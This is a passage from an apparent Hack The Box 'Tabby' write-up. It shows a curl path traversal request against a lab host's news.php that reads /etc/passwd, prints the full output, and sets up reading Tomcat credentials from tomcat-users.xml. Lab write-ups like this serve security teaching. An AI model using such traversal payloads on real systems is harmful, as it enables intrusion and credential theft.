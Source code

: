 First we'll try to read `/etc/passwd` with path traversal to confirm the vulnerability. Usually I would do this in burp or in browser but here let's do it with `curl`

> Note: While doing this inside browser just view the source of the page for better output format

```xml
coldfx@Shockwave:~/htb/tabby$ curl http://megahosting.htb/news.php?file=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash

```

Great ! Now let's try to read any other sensitive file potentially exposing credentials.

### Fetching Tomcat Creds

Tomcat page on port 8080 said `Users are defined in /etc/tomcat9/tomcat-users.xml`
